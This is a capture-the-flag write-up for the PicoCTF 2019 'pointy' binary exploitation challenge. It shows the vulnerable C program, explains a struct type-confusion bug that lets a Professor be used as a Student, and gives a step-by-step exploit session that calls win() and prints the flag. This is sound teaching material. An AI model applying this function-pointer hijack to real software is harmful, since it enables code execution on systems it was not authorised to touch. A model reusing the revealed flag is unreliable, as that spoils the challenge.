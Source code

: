# PicoCTF 2019 - pointy
Author: PinkNoize

Binary Exploitation - 350

> Exploit the function pointers in this program. It is also found in /problems/pointy_4_3b3533bd4e08119669feda53e8cb0502 on the shell server.

## TL;DR

This challenge consists of a program that has two structs with similar definitions, except one has an integer where one has a function pointer. To get the flag, utilize a bad search function to trick the program into using the integer as a function pointer.

# Writeup

This challenge provides a program with a good amount of moving parts such that you should take your time reading and understanding the source code.

```c
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>

#define FLAG_BUFFER 128
#define NAME_SIZE 128
#define MAX_ADDRESSES 1000

int ADRESSES_TAKEN=0;
void *ADDRESSES[MAX_ADDRESSES];

void win() {
    char buf[FLAG_BUFFER];
    FILE *f = fopen("flag.txt","r");
    fgets(buf,FLAG_BUFFER,f);
    puts(buf);
    fflush(stdout);
}

struct Professor {
    char name[NAME_SIZE];
    int lastScore;
};

struct Student {
    char name[NAME_SIZE];
    void (*scoreProfessor)(struct Professor*, int);
};

void giveScoreToProfessor(struct Professor* professor, int score){
    professor->lastScore=score;
    printf("Score Given: %d \n", score);

}

void* retrieveProfessor(char * name ){
    for(int i=0; i<ADRESSES_TAKEN;i++){
        if( strncmp(((struct Student*)ADDRESSES[i])->name, name ,NAME_SIZE )==0){
            return ADDRESSES[i];
        }
    }
    puts("person not found... see you!");
    exit(0);
}

void* retrieveStudent(char * name ){
    for(int i=0; i<ADRESSES_TAKEN;i++){
        if( strncmp(((struct Student*)ADDRESSES[i])->name, name ,NAME_SIZE )==0){
            return ADDRESSES[i];
        }
    }
    puts("person not found... see you!");
    exit(0);
}

void readLine(char * buff){
    int lastRead = read(STDIN_FILENO, buff, NAME_SIZE-1);
    if (lastRead<=1){
        exit(0);
        puts("could not read... see you!");
    }
    buff[lastRead-1]=0;
}

int main (int argc, char **argv)
{
    while(ADRESSES_TAKEN<MAX_ADDRESSES-1){
        printf("Input the name of a student\n");
        struct Student* student = (struct Student*)malloc(sizeof(struct Student));
        ADDRESSES[ADRESSES_TAKEN]=student;
        readLine(student->name);
        printf("Input the name of the favorite professor of a student \n");
        struct Professor* professor = (struct Professor*)malloc(sizeof(struct Professor));
        ADDRESSES[ADRESSES_TAKEN+1]=professor;
        readLine(professor->name);
        student->scoreProfessor=&giveScoreToProfessor;
        ADRESSES_TAKEN+=2;
        printf("Input the name of the student that will give the score \n");
        char  nameStudent[NAME_SIZE];
        readLine(nameStudent);
        student=(struct Student*) retrieveStudent(nameStudent);
        printf("Input the name of the professor that will be scored \n");
        char nameProfessor[NAME_SIZE];
        readLine(nameProfessor);
        professor=(struct Professor*) retrieveProfessor(nameProfessor);
        puts(professor->name);
        unsigned int value;
            printf("Input the score: \n");
            scanf("%u", &value);
        student->scoreProfessor(professor, value);       
    }
    return 0;
```

The most important parts of this program to understand are  `struct Student`, `struct Professor`, `retrieveStudent()` and `retrieveProfessor()`. As we can see from the struct definitions, the only difference between them is one has an integer attribute and one has a function attribute. The `retrieveStudent()` and `retrieveProfessor()` are identical and search for the first element in `ADDRESSES` that has the same name as the one requested. We later will exploit the fact that these functions don't distinguish between professors and students.


Before we can write the exploit, we first have to understand how function pointers work. When we allocate a struct such as `struct Student* student = (struct Student*)malloc(sizeof(struct Student));`, some amount of memory is allocated that can fit all the attributes of the struct. In this case, these are at least 128 bytes for the `name` buffer and at least 4 bytes for the address of the function that `scoreProfessor` points to. It also this case for `struct Professor` with the only difference being that the 4 bytes are for an integer, `score`. When you assign `scoreProfessor` to a function, it sets the 4 bytes to the address of the specified function. Then when you call the function, the address is loaded into a register then the register is the target of a call as shown below.

```gas
8048a60:       8b 85 ec fe ff ff       mov    eax,DWORD PTR [ebp-0x114] ; get address of struct
8048a66:       8b 80 80 00 00 00       mov    eax,DWORD PTR [eax+0x80]  ; get function address using offset
...
8048a7c:       ff d0                   call   eax
```

If we were able to make a `struct Professor` where we controlled the score and trick the program into thinking it is a student, we can make the program call any function such as `win()`. This would only happen if `scoreProfessor` is called on that `struct Professor`.

In `main()`, `scoreProfessor` is called at the end of the while loop on `student`. The last assignment of `student` is from a call to `retrieveStudent()`. As `retrieveStudent()` can return a `struct Professor`, we can call `win()`.

Now we can start our exploit, first we will create a student as prompted. I'm calling this student "stu1". Then we will create a professor called "prof1". We will score prof1 using stu1. The score value must be the address of `win()`, **0x08048696**. We have to convert this to decimal so that `scanf` parses the correct value. So the score would be **134514326**. Now that we set the score of prof1 to the address of `win()`, we have to trick the program into treating it as a student. On the next loop we will create another student and professor whose names do not matter. Then we will *score this professor using prof1*. The score doesn't matter here. The process will then call `win()` and print the flag.

```bash
user@pico-2019-shell1:/problems/pointy_4_3b3533bd4e08119669feda53e8cb0502$ ./vuln 
Input the name of a student
stu1
Input the name of the favorite professor of a student 
prof1
Input the name of the student that will give the score 
stu1
Input the name of the professor that will be scored 
prof1
prof1
Input the score: 
134514326
Score Given: 134514326 
Input the name of a student
stu2
Input the name of the favorite professor of a student 
prof2
Input the name of the student that will give the score 
prof1
Input the name of the professor that will be scored 
prof2
prof2
Input the score: 
5
picoCTF{g1v1ng_d1R3Ct10n5_c7465fbf}
Input the name of a student
```